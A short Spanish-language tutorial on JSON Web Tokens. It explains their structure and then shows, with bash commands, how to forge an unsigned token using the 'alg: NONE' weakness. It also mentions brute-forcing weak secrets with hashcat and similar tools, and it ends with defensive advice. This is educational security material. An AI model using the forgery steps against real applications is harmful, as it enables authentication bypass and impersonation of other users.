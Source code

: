 -- - 
#### **¿Qué son los JWT?**  
Los JWT están compuestos por **3 partes**, separadas por puntos:  
1. **Header** → Algoritmo & Tipo de Token  
2. **Payload** → Datos (información del usuario u otros claims)  
3. **Signature** → Verificación de la firma  

#### **Ejemplo de JWT:**  
```
1(eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9).2(eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ).3(SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c)

```

#### **Nota:**  
Los JWT están codificados en **Base64**, lo que permite **decodificarlos fácilmente** usando la web oficial `jwt.io` o directamente desde la terminal.

---

## **Posibles vulnerabilidades en el uso de JWT**

### **1. Algoritmo "None" y Sin Firma**  
Algunas aplicaciones permiten el uso de `alg: "NONE"`, lo que permite **omitir la firma**.  

#### **Generación del Header:**
```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64
# Resultado: eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
```

#### **Generación del Payload:**
```bash
echo -n '{"id":2,"iat":1724327756,"exp":1724331356}' | base64
# Resultado: eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9
```

#### **Construcción del JWT:**
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9.
```

---

### **Nota Importante:**  
1. **Borra el símbolo `=` del final de cada cadena Base64.**  
2. **Agrega un punto (`.`) al final de las cadenas unidas.**  

---

### **2. Ataque de Fuerza Bruta al Secreto**  
Otro enfoque es **adivinar el secreto** mediante fuerza bruta.  
Aunque no siempre es factible, en algunos casos donde el secreto es débil o conocido, podría funcionar.  
- Herramientas comunes: `JWT-Tool`, `John the Ripper`, `hashcat`.  
- En general, no es práctico debido al tiempo que requiere para secretos robustos.  

---

**Recomendación:**  
- **Evita el uso de `alg: "NONE"`.**  
- **Utiliza secretos fuertes y complejos.**  
- **Implementa mecanismos de rotación de tokens y vencimiento corto.**  

---
